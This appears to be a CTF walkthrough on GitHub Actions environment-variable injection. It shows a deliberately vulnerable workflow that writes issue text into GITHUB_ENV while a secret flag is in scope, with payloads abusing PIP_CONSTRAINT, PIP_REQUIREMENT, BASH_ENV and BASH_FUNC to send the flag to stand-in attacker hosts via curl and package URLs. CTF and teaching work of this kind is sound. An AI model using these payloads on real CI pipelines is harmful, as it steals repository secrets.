## Unit test

```yaml
solutions:
  pip_index : |
    Not a release :(
    PIP_INDEX_URL=https://urlToPackageWithMyVersion/
  pip_constraint: |
    PIP_CONSTRAINT=https://evil.free.beeceptor.com/constraint.txt
    pyyaml@https://evil.free.beeceptor.com/${FLAG}%
  pip_requirements: |
    PIP_REQUIREMENT="https://exfill.com/requirements.txt"
    stuff@https://evil.free.beeceptor.com/${FLAG}%
```
---

## A generic one ?

```yaml
# From: https://github.com/Nebouh/tdf-ctf-cicd/blob/main/.github/workflows/chall3.yml
name: 🔒 Chall 3 - Look mom, i know how to inject in env
on:issues: # Trigger
jobs:
  test:
    steps:
      - name: Set the intermediate environment variable for security
        env:
          issue_body: ${{ github.event.issue.body }}
        run: |
          echo "USERINPUT=$issue_body" >> "$GITHUB_ENV"

      - name: Run any unrelated commands in Bash securely
        run: |
          echo "Hello World !"
        env:
          FLAG: ${{ secrets.FLAG }} # loot !
```

---

## A generic one !

```yaml
solutions:
  BASH_ENV : |
    Let me do something with this env :)
    BASH_ENV='$(curl https://evil.free.beeceptor.com?flag=$FLAG)'
  BASH_FUNC: |
    Let me do something with this env :)
    BASH_FUNC_echo%%=() { builtin echo "$FLAG $@" | base32 ;}
    # https://stackoverflow.com/questions/26293949/set-a-bash-function-on-the-environment
```
---
